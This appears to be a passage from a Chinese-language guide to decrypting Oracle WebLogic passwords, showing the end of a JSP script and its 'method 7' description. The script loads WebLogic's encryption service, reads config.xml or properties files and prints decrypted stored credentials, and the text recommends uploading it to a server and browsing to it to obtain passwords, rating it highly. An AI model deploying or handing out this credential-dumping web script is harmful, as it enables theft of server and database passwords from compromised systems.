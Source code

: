 ```
			
		}
		
		return result;
}
private static String print(Object attributeName, Object encrypted)
{
		String retStr = "Node name: " + attributeName +"<br>";
		retStr += "Encrypted: " + encrypted + "<br>";
		retStr += "Decrypted: " + ces.decrypt((String) encrypted );
		return retStr;
}

private static String getPassword()
{
	String result = "";
	ces = new ClearOrEncryptedService(
				SerializedSystemIni.getEncryptionService(new File(Secruity_path)
						.getAbsolutePath()));
		File file = new File(Config_path);
		if (file.getName().endsWith(".xml")) {
			result = processXml(file);
		}
 
		else if (file.getName().endsWith(".properties")) {
			result = processProperties(file);
		}
	return result;
}

%>
<%

out.println(getPassword());
%>
```

# 解密方法7：服务端jsp解密2

jsp脚本解密，需要上传jsp文件到服务器，访问即可获取密码，简单粗暴，非常推荐！

适用场景：在服务器中上传jsp即可

操作难易：★

成功几率：★★★

推荐指数：★★★★★

相关工具：`https://github.com/TideSec/Decrypt_Weblogic_Password/tree/master/Tools7-get_wls_pwd2`

---
